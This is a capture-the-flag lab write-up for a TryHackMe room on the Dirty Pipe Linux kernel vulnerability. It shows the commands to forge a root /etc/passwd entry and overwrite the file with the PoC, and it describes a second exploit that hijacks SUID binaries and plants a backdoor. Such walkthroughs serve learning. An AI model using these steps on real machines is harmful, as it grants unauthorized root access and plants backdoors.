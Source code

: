 ```yaml
---
description: https://tryhackme.com/room/dirtypipe
---
```


# Dirty Pipe: CVE-2022-0847

![](<../../../.gitbook/assets/image (12) (1) (1).png>)

## Background

In March 2022, a researcher named Max Kellerman publicly disclosed a Linux Kernel vulnerability (nicknamed "Dirty Pipe" for its similarities to the notorious "[Dirty Cow](https://dirtycow.ninja/)" exploit affecting older versions of the kernel) that allowed attackers to arbitrarily overwrite files on the operating system. The vulnerability was responsibly disclosed in early 2022 and was [publicly released in a blog post](https://dirtypipe.cm4all.com/) written by Max Kellerman soon after patches were made available.

Arbitrary file overwrites at the kernel level can be very easily leveraged to escalate privileges on the machine (i.e. to obtain administrator, or "root" privileges). This is a devastating vulnerability, made more so by its reach: any devices running a vulnerable version of the Linux kernel (including Android phones) are affected!

## Overview

Due to their low-level nature, any in-depth discussion of kernel vulnerabilities quickly becomes rather complicated. As such we will keep the information in this task relatively light, in the interests of keeping the information easy to digest. If you would like to read an in-depth explanation of the vulnerability (including a full code analysis), you are highly encouraged to check out Max Kellerman's [original blog post](https://dirtypipe.cm4all.com/).

## A Weaponized PoC

### Generating a SHA512Crypt Hash

The first thing we want to do is create a hash so that we can add a user to the /etc/passwd file

```bash
openssl passwd -6 --salt THM "PASSWORD"
$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.
```

We now want to make a template for what we want to add to /etc/passwd

```
'tyler:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash'
```

### Finding an Offset

We have our _file_ (`/etc/passwd`) and our _content_ (the passwd entry) — all we need now is the _offset_. The offset is where in the file the exploit should begin writing at — in other words, which part of the file gets overwritten.

The vulnerability won't allow us to append to the file, so we are going to have to pick an account and overwrite it. Realistically speaking, given the length of our passwd entry (hash inclusive), this will probably actually overwrite _several_ accounts. Looking through the passwd file, the `games` account stands out as being a good candidate for a little-used account which we can afford to nuke for a few minutes. We can use `grep` with the `-b` switch to find the offset of `games` from the start of the file:

```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ grep -b "games" /etc/passwd
189:games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

### Compile the Exploit

![Compile the Exploit](<../../../.gitbook/assets/image (24) (1) (1) (1).png>)

### Run the Exploit

Then the command should look like this:

```bash
tryhackme@dirty-pipe:~/Exploit/PoC$ ./exploit /etc/passwd 189 'tyler:$6$THM$MeGI7eYSh.ex3l79m8sMQ2dq9Ux77JfC7XlCgZbneUFAvnHj4gphJKnnveuf2AndcoLn2mmhJVhcxvAIgA8RJ.:0:0::/root:/bin/bash
'
```

{% hint style="warning" %}
Note: It is importtant to have that ' on the next line
{% endhint %}

![It Worked!](<../../../.gitbook/assets/image (21) (1) (1).png>)

{% hint style="warning" %}
Note: This flag is partially hidden
{% endhint %}

<details>

<summary>flag.txt</summary>

THM{MmU4Zjg0NDdjNjFi\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*}

</details>

## A Second Exploit

### Overview

In the previous task, we exploited the Dirty Pipe vulnerability using Max Kellerman's original proof of concept exploit code; however, other exploits have since been released. The original PoC allowed us to overwrite any file with arbitrary data at an offset of our choosing; however, other implementations have abused the arbitrary file write vulnerability in a variety of different ways.

To demonstrate this concept, a second exploit script has been added to the lab machine — this can be found on the target at `/home/tryhackme/Exploit/Bl4sty/dirtypipez.c`. As the directory structure suggests, this implementation was coded by [@bl4sty](https://twitter.com/bl4sty/), a security researcher who you may remember if you have already completed the "[SudoVulns: Baron Samedit](https://tryhackme.com/room/sudovulnssamedit)" room. The original exploit code can be downloaded from bl4sty's website [here](https://haxx.in/files/dirtypipez.c); however, as mentioned previously, a copy has already been added to the lab machine.

This exploit takes the arbitrary file write one stage further by abusing a rather special quality of the vulnerability. SUID Programs usually lose their [SUID bit](https://muirlandoracle.co.uk/2020/03/05/unix-file-permissions/#SUID) when you attempt to write to them; however, this does not happen with Dirty Pipe — in other words, we can write to any program that has permission to execute with higher privileges, without inadvertently destroying that extra permission (as would usually happen).

Bl4sty's exploit capitalises on this. Instead of overwriting a file like `/etc/passwd`, it overwrites a user-specified SUID binary (such as `/bin/su`), injecting shellcode into it which then gets executed with the permissions of the privileged user (i.e. `root`). Specifically, the exploit hijacks the chosen SUID binary and forces it to create a backdoor binary in  `/tmp` which has the SUID bit and calls `/bin/sh`. It then restores the targeted SUID binary to full working order by re-adding the overwritten section, and uses the newly created backdoor to grant the attacker a shell as the privileged user.

### Exploitation

#### Compile the Exploit

```bash
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ gcc dirtypipez.c -o exploit
tryhackme@dirty-pipe:~/Exploit/Bl4sty$ ls
dirtypipez.c  exploit
```

#### Run the Exploit

![We got Root!](<../../../.gitbook/assets/image (9) (1) (1).png>)

## Lessons Learned

* When looking for a Linux privilege escalation keep an eye out for the kernel version because if it is 5.8, this could be an easy attack vector
* Even if the linux operating system is read-only (like [bottlerocket](https://github.com/bottlerocket-os/bottlerocket)) the kernel could still be vulnerable to this attack
